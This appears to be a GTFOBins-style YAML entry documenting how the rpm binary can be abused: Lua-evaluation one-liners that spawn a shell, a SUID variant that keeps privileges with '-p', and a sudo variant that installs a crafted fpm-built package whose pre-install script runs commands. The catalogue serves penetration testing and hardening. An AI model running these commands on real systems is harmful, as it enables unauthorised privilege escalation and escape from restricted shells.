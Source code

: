 ```yaml
---
functions:
  shell:
    - code: rpm --eval '%{lua:os.execute("/bin/sh")}'
  suid:
    - code: ./rpm --eval '%{lua:os.execute("/bin/sh", "-p")}'
  sudo:
    - code: sudo rpm --eval '%{lua:os.execute("/bin/sh")}'
    - description: |
        It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'id' > $TF/x.sh
        fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo rpm -ivh x-1.0-1.noarch.rpm
---
```

